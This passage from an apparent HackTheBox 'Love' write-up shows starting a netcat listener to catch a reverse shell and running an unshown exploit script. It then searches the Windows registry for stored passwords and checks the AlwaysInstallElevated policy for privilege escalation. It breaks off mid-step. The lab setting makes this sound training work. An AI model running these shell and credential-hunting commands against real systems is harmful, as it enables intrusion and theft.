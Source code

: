 Start the listener:

```bash
rlwrap nc -lnvp 9001
```

Execute the exploit with:

```bash
python3 exploit.py
```

This should give you a shell:

![shell-23](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Love/img/shell-23.png)


## Privilege Escalation


Trying to snatch quick wins by checking for misconfigured privileges with `whoami /priv` doenst work in 
this case. Checking for passwords in the registry with:

```cmd
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

Yields nothing useful. I had a look around the system, i didnt notice unusual software, or any sensetive
files.


If we check the registry for `AlwaysInstallElevated` policy with:

```cmd
reg query HKLM\Software\Policies\Microsoft\Windows\Installer
reg query HKCU\Software\Policies\Microsoft\Windows\Installer
```
